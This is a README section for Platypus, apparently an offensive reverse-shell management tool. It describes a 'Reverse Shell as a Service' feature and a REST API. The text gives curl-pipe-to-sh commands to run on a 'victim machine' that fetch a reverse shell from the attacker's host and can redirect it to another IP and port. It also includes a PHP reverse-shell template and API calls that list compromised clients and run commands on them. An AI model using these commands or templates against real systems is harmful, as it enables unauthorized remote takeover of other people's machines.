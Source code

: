 ## Reverse shell as a Service

Platypus is able to multiplex the reverse shell listening port. Port 8080 can receive reverse shell client connection, also there is a Reverse Shell as a Service (RaaS) running on this port.

Assume that you have got an arbitrary RCE on the target application, but the target application will strip the non-alphabet letter like `&`, `>`. then this feature will be useful.

To archive this, all you need is to construct a URL that indicates the target.

### Quick start

1. Start platypus and listen to any port (eg: 1.2.3.4 1337)
2. Execute `curl http://1.2.3.4:1337 | sh` on the victim machine

### Specifying language of reverse shell command (default: bash)

1. Start platypus and listen to any port (eg: 1.2.3.4 1337)
2. Execute `curl http://1.2.3.4:1337/python | sh` on the victim machine

### What if I want to pop up the reverse shell to another IP (5.6.7.8) and port (7331)?

By default, the new reverse shell will be popped up to the server which the port which the HTTP request sent, but you can simply change the IP and port by following these steps:

1. Start platypus and listen to any port (eg: 1.2.3.4 1337)
2. Execute `curl http://1.2.3.4:1337/5.6.7.8/7331/python | sh` on the victim machine

### How to add a new language

Currently, platypus support `awk`, `bash`, `go`, `Lua`, `NC`, `Perl`, `PHP`, `python` and `ruby` that were simply stolen from [PayloadAllThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md), and you can check `templates` folder to view all templates. Also, adding new language support is simple, just replace the real IP and port with `__HOST__` and `__PORT__`.

```bash
php -r '$sock=fsockopen("__HOST__",__PORT__);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
```

## RESTful API

* `GET /client` List all online clients

```
# curl 'http://127.0.0.1:9090/client'
{
    "msg": [
        "192.168.1.3:54798"
    ],
    "status": true
}
```

* `POST /client/:hash` execute a command on a specific client

```
# curl -X POST 'http://127.0.0.1:9090/client/0723c3bed0d0240140e10a6ffd36eed4' --data 'cmd=whoami'
{
    "status": true,
    "msg": "root\n",
}
```

* How to hash?

```
# echo -n "192.168.1.3:54798" | md5sum
0723c3bed0d0240140e10a6ffd36eed4  -
```
